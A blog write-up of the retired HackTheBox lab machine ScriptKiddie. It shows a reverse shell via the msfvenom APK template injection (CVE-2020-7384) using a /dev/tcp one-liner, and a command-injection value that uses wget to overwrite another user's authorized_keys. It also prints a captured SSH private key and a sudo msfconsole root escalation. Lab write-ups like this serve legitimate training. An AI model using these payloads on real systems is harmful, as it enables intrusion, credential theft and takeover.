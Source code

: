 Title:HTB: ScriptKiddie
Date: 06-07-2021 10:25
category:security
tags:security, boot2root, HTB, msfvenom, nmap, msfconsole
meta:security, boot2root, HTB, msfvenom, nmap, msfconsole

<img class="align-left" src="/media/2021.06/sk_card.png" alt="ScriptKiddie Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[ScriptKiddie](https://www.hackthebox.eu/home/machines/profile/314) publish on
February 6, 2021 by
[0xdf](https://www.hackthebox.eu/home/users/profile/4935).
This box is rated as easy box the user part implies to use CVE-2020-7384, the
root part is just abusing a bash script and using msfconsole.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

Let us start as always by a `nmap` scan. Only port 22 (SSH) and 5000 with a HTTP
service are open.

    :::text
    # Nmap 7.91 scan initiated Sun Feb  7 08:50:44 2021 as: nmap -p- -sSV -oN nmap 10.129.94.194
    Nmap scan report for 10.129.94.194
    Host is up (0.011s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Feb  7 08:51:09 2021 -- 1 IP address (1 host up) scanned in 24.16 seconds


## Web

The webpage seems to be a "hacker" personal page with a few wrapper around
classical tools as `nmap`, `msfvenom` and `searchsploit`.

![Homepage](/media/2021.06/sc_01.png)

The "template file" option with `msfvenom` is strange. After a few Google research we found
about CVE-2020-7384 which is "msfvenom APK template command injection" and has
[a public exploit available](https://www.exploit-db.com/exploits/49491)


We change the payload to perform a `wget` on our python server

    :::python
    # Change me
    payload = 'wget 10.10.14.64:8000'

We got a hit on our local python HTTP which confirm our RCE.

    :::text
    kali@kali:/tmp$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.94.194 - - [07/Feb/2021 09:27:09] "GET / HTTP/1.1" 200 -

We change the payload again for a reverse shell.

    :::python
    payload = 'sh -i >& /dev/tcp/10.10.14.64/4433 0>&1'

We run netcat to catch it and got the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p 4433
    id
    sh: 0: can't access tty; job control turned off
    $ uid=1000(kid) gid=1000(kid) groups=1000(kid)
    $ cd
    $ cat user.txt
    51573bc36ae7c15d3bb11c3b043a5dea

# Root

## Persistance

We look at our user home folder and get the SSH private key

    :::text
    $ ls -al
    total 60
    drwxr-xr-x 11 kid  kid  4096 Feb  3 11:49 .
    drwxr-xr-x  4 root root 4096 Feb  3 07:40 ..
    lrwxrwxrwx  1 root kid     9 Jan  5 20:31 .bash_history -> /dev/null
    -rw-r--r--  1 kid  kid   220 Feb 25  2020 .bash_logout
    -rw-r--r--  1 kid  kid  3771 Feb 25  2020 .bashrc
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .bundle
    drwx------  2 kid  kid  4096 Feb  3 07:40 .cache
    drwx------  4 kid  kid  4096 Feb  3 11:49 .gnupg
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .local
    drwxr-xr-x  9 kid  kid  4096 Feb  3 07:40 .msf4
    -rw-r--r--  1 kid  kid   807 Feb 25  2020 .profile
    drwx------  2 kid  kid  4096 Feb  3 07:40 .ssh
    -rw-r--r--  1 kid  kid     0 Jan  5 11:10 .sudo_as_admin_successful
    drwxrwxr-x  5 kid  kid  4096 Feb  7 14:25 html
    drwxrwxrwx  2 kid  kid  4096 Feb  3 07:40 logs
    drwxr-xr-x  3 kid  kid  4096 Feb  3 11:48 snap
    -r--------  1 kid  kid    33 Feb  7 13:48 user.txt
    $ ls .ssh/
    authorized_keys
    id_rsa
    id_rsa.pub
    $ cat .ssh/authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCt/
    MXWipZH4vmE0lLycTlwk0eFcEQilnSCwpQoLA9QEiFAMvopNThWyjGkst6HNPdDvSDlJEfTtW4PaOFA
    seUICcwuidMXc4xepu1t0hrfv5Wn7SiwQwIDwE0DvRRSpLIr9I0wfjjEPnvc4y7uuMvsf0hegZLMnChg
    stWWCw99DS5q0YdXxkIC7eKlI90nHyUHL3ULwXDBk6NWhPmJ90yDaFC4iD0yVP3xmjKjl0iotkqbhKhR
    AD8bUINZ7anXTw4Hb0iF5tMAttB8JbLts5zvgQtYrciKE4Qnl4F+MO5yg3G03s9V69K4R+TXmI4TZKUH
    fEpNnReQ+73uOqgjH5VeZr0TmSLEszfFfXRcv7t4jxOboYnS+lgR1V2iGHzSle+nAlVLHqlwP5RTtwaO
    wE0nbykigyz/h4KNCn0rU69fYWSrkcFPYOSm92QKmaMJuXqnycjuqLmHMD2XKSuhlpgD/VmQL34C7pju
    4h+/78qK50+itG0FCiSy6IRd5DIfTkU= kid@scriptkiddie
    $ cat .ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEArfzF1oqWR+L5hNJS8nE5cJNHhXBEIpZ0gsKUKCwPUBIhQDL6KTU4
    <SNIP>
    sOeM4jMTD4DJbb/8Jsh6yzW45V3bgPp1Hm4nI3AZ8SjSI4VqtO9CcDKtPnvh3/jm5VEx9W
    bK3NNrAo9t2tlfAAAAEGtpZEBzY3JpcHRraWRkaWUBAg==
    -----END OPENSSH PRIVATE KEY-----

## scanlosers

We can now  directly connect using SSH. Looking at the accessible files we found
that the `pwn` user has a script `scanlosers.sh` readable by our user. This
script read a log file containing "hacking" attempts and run a `nmap --top10` on
it.

    :::text
    $ ssh kid@10.129.94.194 -i sc_id_rsa
    <SNIP>

    kid@scriptkiddie:~$ cat ../pwn/scanlosers.sh
    #!/bin/bash

    log=/home/kid/logs/hackers

    cd /home/pwn/
    cat $log | cut -d' ' -f3- | sort -u | while read ip; do
        sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    done

    if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi


We download /home/kid/.ssh/authorized_keys localy and rename it to test a few
payload locally. The `cut -d' ' -f3-` means that the 3 first "words"
(characters separated by a space) will be dropped.

The idea is to execute a payload in order to add our SSH key to the "pwn"
user. As always we start by a simple `wget` to ensure the RCE. After a few
attempt we found the following payload that we add to the `hackers` file:

    :::text
    echo 'q w e 127.0.0.1 127.0.0.1 ; wget 10.10.14.64:8000/a -O /home/pwn/.ssh/authorized_keys  ; #' > ../kid/logs/hackers

As the "kid" private key is now also authorized for the "pown" user, we connect
using directly SSH.

    :::text
    $ ssh pwn@10.129.94.194 -i sc_id_rsa
    <SNIP>
    pwn@scriptkiddie:~$ id
    uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)

## msfconsole

Our "pown" user can run `msfconsole` as "root" without any password, which
quickly give us a shell using the `bash` msf command allowing us to get the root
flag.

    :::text
    pwn@scriptkiddie:~$ sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole

    <SNIP>
    msf6 > bash
    [*] exec: bash

    root@scriptkiddie:/home/pwn# id
    uid=0(root) gid=0(root) groups=0(root)
    root@scriptkiddie:/home/pwn# cat /root/root.txt
    b4ccca123e8efc9cc65296e42ed4cabf


# Wrapping up

An easy box exploiting a few mechanisms. The msfvenom exploit was fun to use.

